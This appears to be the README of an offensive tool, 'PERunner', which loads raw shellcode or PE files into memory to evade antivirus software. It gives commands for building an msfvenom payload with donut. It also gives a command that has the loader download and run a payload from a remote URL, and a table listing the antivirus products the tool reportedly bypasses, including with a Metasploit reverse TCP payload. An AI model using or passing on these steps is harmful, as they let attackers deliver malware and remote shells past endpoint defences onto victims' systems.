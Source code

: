 # PERunner
Runs RAW or PE file in memory, avoiding AV.
First generate RAW with shellcoding.py (Requires https://github.com/TheWover/donut in current directory). 
Example of usage:

`python3 shellcoding.py -t msf -p 'msfvenom -a x86 --platform Windows -p windows/exec CMD="calc.exe" -f raw'`

`python3 shellcoding.py -t pe -p your_exe_not_in_golang.exe `

Next run pe.exe with -u params and path the url to result.bin

`pe.exe -u http://10.10.10.10/result.bin`


| Tested AV     | MSF_REV_TCP   | OWN PE |
| ------------- |:-------------:|:-----:|
| AVAST     | ✅ | ✅ |
| ESET      | ✅ | ✅ |
| DrWEB     | ✅ | ✅ |
| 360Sec    | ✅ | ✅ |
| KASPERSKY | ⬜️ | ✅ |
| AVG       | ✅ | ✅ |
